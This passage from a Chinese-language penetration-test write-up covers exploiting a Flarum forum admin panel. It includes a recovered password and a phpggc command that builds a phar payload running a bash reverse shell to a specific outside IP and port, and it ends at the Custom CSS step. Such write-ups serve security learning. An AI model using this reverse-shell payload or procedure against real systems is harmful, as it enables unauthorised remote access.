 得到密码`1chris`

而后进入后台

[![](assets/1706846898-3e57d8505f215bf2f92802157dad9c8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131213734-e3e9858c-c03d-1.png)

发现是`Flarum`主题，搜索相关漏洞发现[https://www.leavesongs.com/PENETRATION/flarum-rce-tour.html](https://www.leavesongs.com/PENETRATION/flarum-rce-tour.html)

而后按部就班即可

## 漏洞利用

借助`phpggc`工具生成反弹 Shell 语句

```plain
php -d phar.readonly=0 phpggc -p tar -b Monolog/RCE6 system "bash -c 'bash -i >& /dev/tcp/119.3.215.198/7776 0>&1'"
```

[![](assets/1706846898-81a7a3bbf4e48ae52bc2377b42ee9d9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131213906-1b15d646-c03e-1.png)

点击`外观->自定义样式->编辑自定义CSS`
